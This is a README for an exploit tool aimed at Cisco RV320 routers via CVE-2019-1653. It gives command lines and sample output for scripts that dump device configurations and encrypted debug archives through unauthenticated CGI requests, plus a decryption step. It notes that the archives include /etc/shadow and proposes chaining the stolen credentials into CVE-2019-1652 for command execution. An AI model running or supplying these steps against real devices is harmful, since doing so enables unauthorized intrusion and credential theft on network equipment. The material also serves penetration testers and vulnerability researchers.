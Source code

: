 # CiscoRV320Dump
CVE-2019-1653 Exploit For Dumping Cisco RV320 Configurations

All this does is dump the config out to a file for later shenanigans using the CVE-2019-1653 exploits disclosed by Red Team Pentesting GmbH.

## Example Use:

For the [configuration dump exploit](https://seclists.org/fulldisclosure/2019/Jan/52), just set target, port, ssl on/off, and output directory. It will dump the configuration to there. 
```
$ python getconfig.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/config.exp
{*} We seem to have found a valid config! Writing to output/x.x.x.x_8443.conf
$
```

For the [debug data dumping exploit](https://seclists.org/fulldisclosure/2019/Jan/53), it is the same routine, but the dumped data is larger and encrypted. 
You will want to decrypt this using the provided "decrypt.sh" script, or manually using `openssl`. This will give you a tar file.
The debug output not only gets you the config, but also backups of `/etc` and `/var`, and yes, the `/etc/shadow/` file is present.
I'll eventually rewrite the decryption script in Python, but this was a quick kludge.
```
$ python getdebug.py -t x.x.x.x -p 8443 -s -d output
{+} Sending request to https://x.x.x.x:8443/cgi-bin/export_debug_msg.exp
{*} We seem to have found a valid encrypted config! Writing to output/x.x.x.x_8443.enc
$ ./decrypt.sh output/x.x.x.x_8443.enc 
Cisco Encrypted Debug Data Decryption Script!
{+} Decrypting output/x.x.x.x_8443.enc
{+} Plaintext should be at output/x.x.x.x_8443.enc.decrypted.tar.gz...
$ 
```

Using the creds you get from these (usually hashed) you can then exploit [CVE-2019-1652](https://seclists.org/fulldisclosure/2019/Jan/54) to execute commands on the device. Maybe I'll get around to writing an exploit for that part to round out the whole shitshow.
